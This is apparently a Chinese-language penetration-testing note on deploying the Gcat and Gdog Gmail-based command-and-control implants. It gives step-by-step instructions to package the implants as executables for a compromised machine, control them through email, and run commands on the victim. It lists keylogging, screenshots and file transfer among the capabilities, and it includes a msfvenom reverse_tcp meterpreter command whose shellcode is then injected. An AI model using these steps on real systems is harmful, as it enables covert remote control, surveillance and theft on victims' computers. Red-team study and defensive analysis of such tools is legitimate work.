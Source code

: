 #### Gcat
	https://myaccount.google.com/lesssecureapps
	启用设置
![image](/assets/Pentest_Note/master/img/281.png)

	Gmail启用imap
![image](/assets/Pentest_Note/master/img/282.png)

	将以下脚本转换为exe
	# setup.py
	from distutils.core import setup
	import py2exe
 
	setup(console=['implant.py'])
	https://github.com/byt3bl33d3r/gcat
	把gcat项目中的implant.py跟以上脚本放在同一目录，修改implant.py中的账户信息
![image](/assets/Pentest_Note/master/img/283.png)

	>python 1.py py2exe打包
	dist目录下生成implant.exe受控机执行
	同时也要修改项目中gcat.py中的账户信息
![image](/assets/Pentest_Note/master/img/284.png)

	在受控机执行implant.exe，如果报错修改email模块以下三行
	from email.mime.multipart import MIMEMultipart
	from email.mime.base import MIMEBase
	from email.mime.text import MIMEText
![image](/assets/Pentest_Note/master/img/285.png)

	执行后，邮箱会收到信息
![image](/assets/Pentest_Note/master/img/286.png)

	使用gcat.py也可以得到当前会话
	>python gcat.py -list
![image](/assets/Pentest_Note/master/img/287.png)

	现在可对其进行控制
	>python gcat.py -id [id] -cmd 'net user'
![image](/assets/Pentest_Note/master/img/288.png)

	生成jobid，指定jobid可查看回显
![image](/assets/Pentest_Note/master/img/289.png)

	邮箱中也存在
![image](/assets/Pentest_Note/master/img/290.png)

	当受控机为中文系统时，回显会报错，修改代码
![image](/assets/Pentest_Note/master/img/291.png)

	其他模块有回显的直接修改后重新py2exe打包即可。
	支持的功能:cmd,upload/download,执行shellcode,键盘记录,截屏等
#### Gdog
	https://github.com/maldevel/gdog
	功能更多:
	加密传输、地理位置、执行命令、上传下载、shellcode、截图、键盘记录、关闭重启、注销用户、从web下载、访问网站等
	配置流程基本一样，需要打包exe，但是要安装一些模块PyCrypto、WMI、Enum34、Netifaces
	# setup.py
	from distutils.core import setup
	import py2exe
	 
	setup(console=['client.py'])
	client.py在回显处也要添加decode gbk
	执行client.exe报超出索引错误时
	在client.py中搜索字符串for iface in netifaces.interfaces():
	在它下面一行修改为
	if netifaces.ifaddresses(iface)[netifaces.AF_LINK][0]['addr'] == self.MAC and netifaces.AF_INET in netifaces.ifaddresses(iface):
	打包好后执行
![image](/assets/Pentest_Note/master/img/292.png)
![image](/assets/Pentest_Note/master/img/293.png)
![image](/assets/Pentest_Note/master/img/294.png)
![image](/assets/Pentest_Note/master/img/295.png)

	提取jobid回显出错的话，添加
	reload(sys)
	sys.setdefaultencoding("utf-8")
	执行shellcode
	>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=x.x.x.x -f python
	去除引号加减号，只保留shellcode粘贴到文件shell.txt
	>python gdog.py -id {id} -exec-shellcode /tmp/shell.txt